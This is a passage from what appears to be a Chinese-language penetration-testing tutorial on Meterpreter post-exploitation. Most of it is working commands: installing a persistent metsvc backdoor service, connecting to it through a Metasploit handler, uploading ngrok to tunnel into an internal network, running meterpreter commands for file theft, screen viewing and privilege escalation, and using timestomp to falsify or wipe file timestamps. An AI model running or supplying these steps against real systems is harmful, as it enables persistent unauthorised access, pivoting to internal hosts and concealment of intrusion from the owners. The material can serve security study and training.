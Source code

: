 在C:\Users***\AppData\Local\Temp\上传了三个文件（metsrv.x86.dll、metsvc-server.exe、metsvc.exe），通过服务启动，服务名为meterpreter

```
run metsvc –h   # 查看帮助
run metsvc –A   #自动安装后门
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180806232243-9060162a-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232243-9060162a-998c-1.png)
[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180806232243-9077bb4a-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232243-9077bb4a-998c-1.png)

**连接后门**

```
msf > use exploit/multi/handler
msf > set payload windows/metsvc_bind_tcp
msf > set RHOST 192.168.159.144
msf > set LPORT 31337
```







 #### 开启内网穿透

这步是为了实现**正向shell**,或则进行内网ip:port的一个转发，实现攻击内部主机

```
upload 【一个内网穿透软件】（小米球）
ngrok.exe -config ngrok.conf -log=ngrok.log start %tuns%
upload 【一个又后门的服务】
...

```

#### meterpert命令

```
download 下载文件与文件夹
upload 上传文件
getwd 获取当前工作目录
screen_share 查看桌面
run vnc 打开vpn可以实时查看桌面
getsystem 获取系统权限

```

#### 修改文件时间

```
meterpreter >>timestomp -v config.txt #显示详细时间
meterpreter >>timestomp -z "11/26/1999 15:15:25"  config.txt
#修改文件属性
meterpreter >>timestomp -b config.txt#将文件信息清空
```
